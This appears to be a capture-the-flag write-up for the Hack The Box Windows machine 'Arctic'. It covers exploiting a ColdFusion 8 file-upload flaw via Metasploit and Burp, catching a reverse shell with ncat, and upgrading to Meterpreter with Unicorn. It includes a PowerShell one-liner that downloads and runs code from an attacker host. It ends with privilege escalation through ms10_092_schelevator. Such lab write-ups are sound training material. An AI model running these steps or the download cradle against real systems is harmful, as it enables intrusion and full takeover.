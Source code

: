 # Arctic Box Write-Up
### Date Completed: 08 January 2019
### Difficulty: Easy
### IP: 10.10.10.11
### OS: Windows

### Enumeration with Nmap:
![nmap](/img/arctic/nmap.png)
* -sV : enumerate versions
* -sC : run safe scripts
* -Pn : skip host discovery

* Port 8500 is the default port for Adobe Cold Fusion.

![coldfusion page](/img/arctic/coldfusion.png)
* When navigating to port 8500 on a web browser, there is an interesting page in the /CFIDE/administrator directory. They are running Coldfusion v8. 

### Exploitation:
![exploit search](/img/arctic/exploit_search.png)
* Use searchsploit to locate possible exploits.
* There's a Metasploit module for an arbitrary file upload exploit.

![msfconsole1](/img/arctic/msfconsole1.png)
* Pull up the Metasploit Framework, and do a search for coldfusion.
* Use the module found in searchsploit.
* Set rhost to 10.10.10.11 and rport to 8500. 
* Exploit.

![msfconsole2](/img/arctic/msfconsole2.png)
* The exploit failed because of the server's long response time, so there is a little extra work to be done. 

![burpsuite1](/img/arctic/burp1.png)
* Open up Burpsuite and navigate to the proxy options tab.

![burpsuite2](/img/arctic/burp2.png)
* Add a listener for port 8500 and loop back only option to redirect to 10.10.10.11 and port 8500.

![test](/img/arctic/test.png)
* Browse to localhost:8500 to test the listener in a web browser. If intercept is on in Burp, make sure to forward the request.

* Go back to Metasploit and set rhost to 127.0.0.1 and exploit (Make sure intercept is on in Burp).

* Go to Burp and copy the POST request on the Proxy/intercept tab to the repeater tab on the request side.
* Drop the POST request from the Proxy/intercept tab.

![repeater](/img/arctic/repeater.png)
* Hit go on the Repeater tab and send it to 10.10.10.11 port 8500.
* There should be a 200 reponse in the response section along with the directory it uploaded the payload to. 

![listener](/img/arctic/listener.png)
* Start a ncat listener on port 4444 to catch the shell the callback the payload will generate. 
** l : listen
** n : no DNS
** v : verbose output
** p : port

![navigate](/img/arctic/navigate.png)
* Navigate to the payload page whose directory was shown in the Burp Repeater/response page.

![shell](/img/arctic/shell.png)
* There's a shell! 
* If something isn't working, make sure Burp isn't intercepting. 

### Upgrade Shell to Meterpreter with Unicorn (https://github.com/trustedsec/unicorn):
![unicorn](/img/arctic/unicorn.png)
* Follow the above syntax substituting Unicorn's directory and the IP of the attack box and a random high port. 

![restart](/img/arctic/restart.png) 
* Restart the Metasploit Framework using the options generated by Unicorn.
* cat the powershell_attack.txt file that Unicorn generated and copy it to the clipboard (make sure to avoid any extra spaces at the end or beginning).
* Use vi to create exploit.html and paste the powershell into it.
* Start a simple HTTP server on the attack machine using python in the directory where exploit.html is located (python -m SimpleHTTPServer).

![download](/img/arctic/download.png)
* In the shell on the target machine, run the following command in powershell to download and run the shellcode:
** powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/exploit.html')"
*** make sure to use the IP of the attack station and shellcode filename in the URL.
** There should be a GET request on your HTTP server in a few seconds.
* Switch to your Metasploit console, and it should indicate it's sending the encoded stager. If it sits for awhile, you can hit enter and use the sessions command to make sure your session was generated (to interact with it use 'sessions -i <session #>).
* Now we have a user level Meterpreter shell!

### Privesc
![suggester1](/img/arctic/suggester1.png)
* Use the local exploit suggester to check for any possible local privesc exploits. 

![suggester2](/img/arctic/suggester2.png)
* Since Meterpreter is currently running as a 32 bit process, you need to migrate to a 64 bit process, run the suggester again, and then use the exploit which works for 32 and 64 bit. 
** Interact with the Meterpreter session, list the processes with 'ps', migrate to a stable x64 process with 'migrate <PID>'.
* Follow the previous steps to run the suggester again.

![suggester_both](/img/arctic/suggester_both.png)
* ms10_092_schelevator is the only exploit which works on 32 and 64 bit, so use that one.
* Use ms10_092_schelevator and set the session to your Meterpreter session number.
* Throw the 'sploit!
** If it doesn't generate the session, check and make sure it starts the listener on your VPN IP and not your attack station's local IP. If it did, simply set lhost to your VPN IP. 

### Datamining:
![system](/img/arctic/system.png)
* Use the SYSTEM Meterpreter session to get the user and root flags.




